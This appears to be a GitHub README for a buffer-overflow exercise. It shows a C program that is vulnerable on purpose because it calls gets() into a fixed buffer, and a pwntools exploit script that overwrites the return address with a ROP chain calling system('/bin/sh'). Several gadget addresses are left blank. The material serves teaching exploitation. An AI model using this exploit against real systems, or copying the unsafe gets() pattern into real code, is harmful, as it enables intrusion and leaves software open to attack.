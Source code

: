 The vulnerability arises from the use of unsafe functions, such as `gets` in our case, which do not perform input length checks. This allows buffer overflow attacks that enable overwriting the return address on the stack, redirecting the execution flow.

### Vulnerable Code

```c
  #include <stdio.h>
  #include <string.h>

  void vulnerable_function() {
      char buffer[64];
      printf("Inserisci input: ");
      gets(buffer);  // Funzione vulnerabile
      printf("Hai inserito: %s\n", buffer);
  }

  int main() {
      vulnerable_function();
      return 0;
  }
```
## Exploit
Below is the exploit code used to exploit the buffer overflow and overwrite the return address to execute a command like `system("/bin/sh")`.

``` python 

from pwn import *

binary = './main'
context.binary = binary

offset = 72 # Offset to trigger the overflow
system_addr = 0x7ffff7c58750# Example address
binsh_addr = # Address to find
pop_rdi = # Address to find
ret_gadget = # Address to find 

def exploit():

    # Payload construction
    p = process(binary)   
    payload = b"A" * offset               # Padding to reach the return address
    payload += p64(pop_rdi)               # pop rdi; prepares the RDI register for the first argument to system()
    payload += p64(binsh_addr)             # Address of the "/bin/sh" string
    payload += p64(ret_gadget)             # Stack alignment gadget (ret) to avoid ROP issues
    payload += p64(system_addr)            # Address of system() function to spawn the shell

    p.sendline(payload)                    # Sending the payload to the vulnerable program
    p.interactive()                       # Interactive interaction with the obtained shell

if __name__ == "__main__":
    exploit()
```
